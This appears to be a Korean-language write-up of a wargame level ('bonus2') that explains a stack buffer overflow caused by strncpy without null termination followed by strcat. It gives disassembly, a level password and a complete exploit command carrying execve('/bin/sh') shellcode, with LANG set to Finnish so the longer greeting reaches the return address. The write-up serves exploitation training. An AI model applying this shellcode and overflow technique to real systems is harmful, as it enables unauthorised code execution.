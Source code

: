 > Password: 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245

bonus2 프로그램을 인자와 함께 실행시키면

```
$ ./bonus2 aa bb
Hello aa
```

인자에 대해서 인사를 해주는 프로그램인 것을 볼 수 있다.

어셈블리 코드를 보면 main함수에서 strncpy를 argv[1], argv[2]에 대해서 호출하여 복사본을 스택에 넣은 이후

```
8048564:	c7 44 24 08 28 00 00 	movl   $0x28,0x8(%esp)
 804856b:	00 
 804856c:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048570:	8d 44 24 50          	lea    0x50(%esp)<local::char[40]>,%eax
 8048574:	89 04 24             	mov    %eax,(%esp)
 8048577:	e8 44 fe ff ff       	call   80483c0 <strncpy(0x50+%esp, argv[1], 40)@plt>
```

greetuser 함수를 호출하여
```
 804862b:	e8 54 fe ff ff       	call   8048484 <greetuser>
```

"Hello " 문자열 뒤에 인자로 받은 문자열을 strcat으로 붙인 뒤 출력하는 것을 볼 수 있다.
```
 804850a:	8d 45 08             	lea    0x8(%ebp),%eax
 804850d:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048511:	8d 45 b8             	lea    -0x48(%ebp),%eax
 8048514:	89 04 24             	mov    %eax,(%esp)
 8048517:	e8 54 fe ff ff       	call   8048370 <strcat(local::char[72], )@plt>
```

이번 문제도 지난번 문제와 유사하게 strncpy가 n보다 길이가 길거나 같은 문자열을 넣었을 때 null-term을 하지 않고, 그것을 이용해서 strcat에서 버퍼 크기를 벗어나는 문자열을 스택 영역에 넣을 수 있는 점을 이용할 수 있다.

다만 이번에는 앞서 말한 방법으로 만들 수 있는 문자열의 길이가 최대 0x28 + 0x20 + strlen("Hello ") = 78인데 ebp + 0x4를 완전히 덮기 위해서는 80byte가 필요하다.

따라서 부족한 2byte를 보충하기 위해서 코드를 유심히 보면

getenv("LANG")를 호출하고 결과 문자열을 미리 저장된 문자열과 비교하여 다른 언어로 인사말을 표시하는 로직을 확인할 수 있다.

```
 804859f:	c7 04 24 38 87 04 08 	movl   $0x8048738,(%esp)
 80485a6:	e8 d5 fd ff ff       	call   8048380 <getenv("LANG")@plt>
 [...]
```

실제로 환경변수 LANG에 fi를 넣고 프로그램을 실행하면, 필란드어로 인사를 해주는 것을 볼 수 있는데

```bash
$ LANG=fi ./bonus2 aa bb
Hyvää päivää aa
```

이 인사말은 Hello보다 훨씬 길어서 이 인사말을 이용하면 ebp + 0x4를 완전히 덮기 충분할 것 같다.

```bash 
LANG=fi ./bonus2 $(python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAA1\xc0Ph//shh/bin\x89",') $(python -c 'print "\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x801\xc0@\xcd\x80BBBB\xe8\xf5\xff\xbf",')
```

주의할 점)

쉘코드가 스택에 들어가기 때문에 쉘코드 자체에 들어가는 push등의 로직에 의해서 스스로 쉘코드가 손상되어 SIGSEGV를 받는 일이 일어나는데 

이전 문제에서는 스택이 넉넉해서 스택에 매우 높은 위치에 쉘코드를 넣는 방법으로 문제를 해결했었지만, 이번 문제에서는 스택이 넉넉하지 않아서 python을 이용해서 모든 가능한 입력을 시도해보고 그 중 정상적으로 작동하는 입력을 선택하는 방법으로 해결했다. (`source.py`참고)
